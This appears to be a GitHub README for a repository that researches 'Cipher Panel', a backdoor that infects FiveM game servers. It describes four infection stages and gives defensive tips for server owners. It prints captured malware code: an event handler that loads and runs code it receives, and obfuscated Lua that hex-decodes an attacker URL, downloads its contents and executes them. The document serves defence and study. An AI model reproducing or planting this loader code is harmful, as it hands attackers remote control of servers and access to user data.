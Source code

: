 # MaliciousPanel
Cipher Panel Research (To clarify I have 0 connections to the group behind Cipher Panel, I'm merely researching this malicious panel for Cfx and server owners)

With respect to @ericstolly's research, I have dug up more information and together with his research this repo has been created. 
Mainly for information and educational purposes for server owners to figure out how what and where.

The several stages will be found in the files of this repo, there's also tools available (for now very limited) and a file which they infected. Don't worry it's only effective whenever you drop this file in the server files at the right position.

Explaination of the several stages:

*Stage 1*: This stage is the "exploit" stage, just depends on what you want to name it. 
In this stage they are gaining entry into your FiveM server and talking with their panel. 

*Stage 2*: This stage is the Payload phase, this is when they're re-writing your sessionmanager files and build a control base for further spreading and infection of other resources.

*Stage 3*: This is the spread phase, this is mainly a bridge between phase 2 and phase 4, this is where local functions are added throughout several scripts and where the fxmanifests are edited to use / run MySQL statements assumably for gaining access to the IP's and user data. But most these days use other mysql scripts so it's pretty obvious when there is a `server_script {'@mysql-async/lib/MySQL.lua'}` added. 

*Stage 4*: This is the control stage, this is where the panel sends out triggers to the several listening functions, how they do it? Read in phase 4 docs.
In the basis they're performing simple HTTP requests to their panel. Whenever the panel sends out a call to action, the response in the web body changes and the functions reading the web body will then distribute the events either client or server sided. Also txAdmin is victim of this, disabling the whitelist for example or bypassing a txAdmin ban.

**Tips for now**:
- Use a other mysql script
- Use a 3rd Party script for your bans and whitelist
- Disable their website in the hosts file (in case of Windows)
- Re-install the fresh sessionmanager
- Use notepad++ to search for any obfuscated functions with the information that will be available per phase documentation

**Traces Found**:
```
RegisterNetEvent('helpCode')

AddEventHandler('helpCode', function(id)
	local help = assert(load(id))
	help()
end)
```
Code from stage2 or stage3 will be send via a event and executed here. 

In rconlog we found some obfuscated code, which is the same as the stage2 code but a different page which still these days is unknown what it's contents are or how to gain the contents of this page. Only thing known is that it's in the server sided and downloads the body of the page. 
https://cipher-panel.me/_i/r.php?to=0

Code:
```
local BaoWmVjtyB = {
	_G['PerformHttpRequest'],
	_G['assert'],
	_G['load'],
	_G['tonumber']
}

local CKGzkhSwYw = {
	'68', '74', '74', '70', '73', '3a', '2f', '2f', '63', '69', '70', '68', '65', '72',
	'2d', '70', '61', '6e', '65', '6c', '2e', '6d', '65', '2f', '5f', '69', '2f', '72',
	'2e', '70', '68', '70', '3f', '74', '6f', '3d', '30'
}

function uGeRrdKRtK()
	JJcQCUzzCK = ''
	for id,it in pairs(CKGzkhSwYw) do
		JJcQCUzzCK = JJcQCUzzCK..it
	end
	return (JJcQCUzzCK:gsub('..', function (luwOyroAEjA)
		return string.char(BaoWmVjtyB[4](luwOyroAEjA, 16))
	end))
end

BaoWmVjtyB[BaoWmVjtyB[4]('1')](uGeRrdKRtK(), function (e, jKlDPYMVkD)
	local YlEkQSXGlZ = BaoWmVjtyB[BaoWmVjtyB[4]('2')](BaoWmVjtyB[BaoWmVjtyB[4]('3')](jKlDPYMVkD))
	if (jKlDPYMVkD == nil) then return end
	YlEkQSXGlZ()
end)
```
Doing our magical de-obfuscating and using the dehex function we can see that it downloads (just like the rest) the contents of the page r.php and executes it. The methods are the same as in the sessionmanager host_lock.lua file.
